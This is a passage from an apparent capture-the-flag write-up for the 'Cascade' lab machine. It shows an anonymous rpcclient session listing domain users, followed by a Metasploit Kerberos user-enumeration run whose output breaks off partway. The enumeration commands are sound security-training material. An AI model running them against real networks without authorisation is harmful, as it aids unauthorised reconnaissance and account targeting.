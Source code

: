 ```text
rpcclient -U "" -N 10.10.10.182

rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
```

I was not able to get much information, but I did get a list of usernames \(and their RIDs\).

#### **Metasploit - Kerberos user enumeration**

I saved the usernames to a file and ran the Metasploit module `auxiliary(gather/kerberos_enumusers)` to see which of them were valid users and to check if any of them did not require pre-authentication.

```text
msf5 auxiliary(gather/kerberos_enumusers) > run
[*] Running module against 10.10.10.182

[*] Validating options...
[*] Using domain: CASCADE.LOCAL...
[*] 10.10.10.182:88 - Testing User: "cascguest"...
[*] 10.10.10.182:88 - KDC_ERR_CLIENT_REVOKED - Clients credentials have been revoked
[-] 10.10.10.182:88 - User: "cascguest" account disabled or locked out
[*] 10.10.10.182:88 - Testing User: "arksvc"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "arksvc" is present
[*] 10.10.10.182:88 - Testing User: "s.smith"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "s.smith" is present
[*] 10.10.10.182:88 - Testing User: "r.thompson"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "r.thompson" is present
[*] 10.10.10.182:88 - Testing User: "util"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "util" is present
[*] 10.10.10.182:88 - Testing User: "j.wakefield"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "j.wakefield" is present
[*] 10.10.10.182:88 - Testing User: "s.hickson"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "s.hickson" is present
[*] 10.10.10.182:88 - Testing User: "j.goodhand"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "j.goodhand" is present
[*] 10.10.10.182:88 - Testing User: "a.turnbull"...
[*] 10.10.10.182:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.182:88 - User: "a.turnbull" is present
[*] 10.10.10.182:88 - Testing User: "e.crowe"...
[*] 10.10.10.182:88 - KDC_ERR_CLIENT_REVOKED - Clients credentials have been revoked
[-] 10.10.10.182:88 - User: "e.crowe" account disabled or locked out
[*] 10.10.10.182:88 - Testing User: "b.hanson"...
```